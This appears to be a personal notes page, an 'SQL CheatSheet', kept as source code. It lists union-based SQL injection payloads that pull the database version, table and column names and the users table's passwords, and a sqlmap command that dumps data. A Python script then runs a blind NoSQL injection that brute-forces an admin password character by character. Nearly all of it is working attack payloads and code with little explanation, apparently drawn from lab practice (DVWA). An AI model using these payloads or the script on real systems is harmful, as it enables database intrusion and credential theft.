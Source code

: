 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version<br>
%' or 0=0 union select null, version() #<br>
<br>
Display Database User<br>
%' or 0=0 union select null, user() #<br>
<br>
Display Database Name<br>
%' or 0=0 union select null, database() #<br>
<br>
Display all tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables #<br>
<br>
Display all the user tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#<br>
<br>
Display all the columns fields in the information_schema user table<br>
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #<br>
<br>
Display all the columns field contents in the information_schema user table<br>
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #<br>
</p>

<code>sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump</code>

<h2>Nosql</h2>

<h4>shitscript</h4>


<code>
import requests
bruten = '1234567890abcdef-'
xx=0
x = bruten[xx]
keylist = ""
keystr = keylist + x
#URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
r = requests.get(URL)
s = (len(r.content))
</code>
<code>  
while True:
  try:
    for i in range(0, 17):    
      x = bruten[xx]
      keystr = keylist + x
      #URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
      URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
      print(URL)
      print(keystr)
      #print(keylist)
      r = requests.get(URL)
      s = (len(r.content))
      #print(s)
      if s == 1614:
        keystr = keylist + x
        keystr = keystr
        keylist = keylist + x
        #print(keylist)
        xx=0
        continue
  
      else:
        #keylist = ""
        keystr = keylist + x
        keystr = keystr
        xx+=1
        continue
    except:
      print("crackarooniedddddd")
      print('password is ' + keystr[:-1])
      break  </code>